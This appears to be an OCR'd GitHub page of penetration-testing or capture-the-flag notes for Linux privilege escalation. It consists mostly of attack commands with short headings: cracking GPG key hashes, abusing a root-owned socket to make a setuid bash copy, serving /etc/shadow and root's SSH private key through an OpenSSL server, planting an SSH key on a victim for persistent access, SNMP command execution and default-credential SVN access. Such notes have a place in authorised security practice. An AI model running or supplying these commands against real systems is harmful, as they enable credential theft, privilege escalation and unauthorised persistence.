 #### Check for GPG keys and private stuff:

```bash
gpg2john encrypted_key > key_hash #if needed
gpg --import encrypted_key #with passcode
gpg --decrypt encoded_text --output decoded_text
```

#### Check for sockets that are run as root:

```bash
nc -U /tmp/socket.c
cp /bin/bash /tmp/bash && chmod u=s bash
```

#### OpenSSL to host server to read files:

```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes #inside /tmp

/opt/cert/openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

curl https://localhost:1337/etc/shadow
curl https://localhost:1337/root/.ssh/id_rsa
```

#### Create SSH key for a user:

```bash
mkdir .ssh && cd .ssh
echo '<public key>' > authorized_keys

#On attacker machine
ssh -o StrictHostKeyChecking=no user@victim.host
```

#### Checking for library without debuggin:

```bash
ltrace <absolute path to file>
#Check for unquoted service paths and PATH hijacking vulnerabilities. 

#If there is OS command Injection or forms of BOF, please debug accordingly.
```

#### SNMP Execute shell:

```bash
echo '#!/bin/bash\n echo thisisRCE' > /tmp/shtest
chmod 777 shtest

#on attaker machine
snmpbulkwalk -c <string> -v2c 192.168.123.113 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

#### SVN Enumeration:

```bash
svn log --username admin --password admin http://<IP>/path/to/svn
```
